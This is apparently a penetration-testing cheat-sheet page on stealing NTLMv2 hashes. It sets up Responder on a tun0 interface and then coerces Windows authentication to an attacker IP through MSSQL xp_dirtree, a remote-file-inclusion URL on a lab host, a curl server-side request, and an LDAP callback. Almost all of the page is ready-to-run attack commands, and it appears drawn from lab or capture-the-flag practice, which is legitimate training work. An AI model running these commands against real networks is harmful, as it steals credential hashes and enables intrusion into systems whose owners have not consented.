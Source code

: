 ```yaml
---
description: NTLM and Net-NTLMv2
---
```


# Init NTLMv2 Theft

## Wait on your network.

{% code overflow="wrap" %}
```bash
sudo responder -I tun0 -dw -v
```
{% endcode %}

You may see Net-NTLMv2 hashes automatically.&#x20;

<figure><img src="../.gitbook/assets/image (139).png" alt=""><figcaption></figcaption></figure>

## Theft via SMB

See [SMB Responder](user-recon/smb-responder.md) section.&#x20;

## Theft via Database

{% code overflow="wrap" %}
```bash
Kali> sudo responder -I tun0 -v

# Database with mssqlclient.py
SQL> EXEC sp_helprotect 'xp_dirtree' 
SQL> master.sys.xp_dirtree '\\10.10.14.54\any\thing' # Kali IP 

# Database with sqsh 
1> use master;                                                                                                                                                                       
2> EXEC sp_helprotect 'xp_dirtree';                                                                                                                                                  
3> go  

1> exec master.dbo.xp_dirtree '\\10.10.14.54\any\thing'   # Kali IP 
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

## Theft via HTTB &#x20;

{% code overflow="wrap" %}
```bash
# Find a RFI vulnerability and then access to back to Kali
Kali> sudo responder -I tun0
Browser> http://school.flight.htb/index.php?view=//<Kali IP>/any/thing.txt

# Another example 
Kali> sudo responder -I tun0 -v
Kali> curl "http://192.168.206.165:8080/?url=http://192.168.49.206" 
```
{% endcode %}

## Theft via LDAP &#x20;

```bash
Kali> sudo responder -I tun0

# Target Windows OS 
# Access to Ldap, triggering back to Kali
# ldap://<Kali IP>:389
Target system or service> ldap://10.10.14.114:389
```

